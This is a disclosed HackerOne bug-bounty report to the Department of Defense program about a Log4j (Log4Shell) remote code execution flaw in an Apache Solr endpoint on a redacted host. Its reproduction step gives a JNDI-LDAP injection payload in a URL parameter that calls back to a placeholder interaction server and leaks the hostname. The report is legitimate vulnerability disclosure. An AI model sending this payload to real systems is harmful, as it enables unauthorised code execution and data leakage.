 # solr_log4j - http://██████████

## Report Details
- **Report ID**: 1631370
- **URL**: https://hackerone.com/reports/1631370
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-08T14:08:07.860Z
- **Disclosed**: 2022-09-06T19:10:39.069Z

## Reporter
- **Username**: hachimanxienim
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi security team, i found a solr log4j vulnerability in your aplication

## Impact

Logging untrusted or user controlled data with a vulnerable version of Log4J may result in Remote Code Execution (RCE) against your application. This includes untrusted data included in logged errors such as exception traces, authentication failures, and other unexpected vectors of user controlled input

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Just send get request to this path and change your interact server

PATH ----> http://████████/solr/admin/collections?action=$%7Bjndi:ldap://$%7BhostName%7D.YOURINTERACTSERVER/a%7D

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
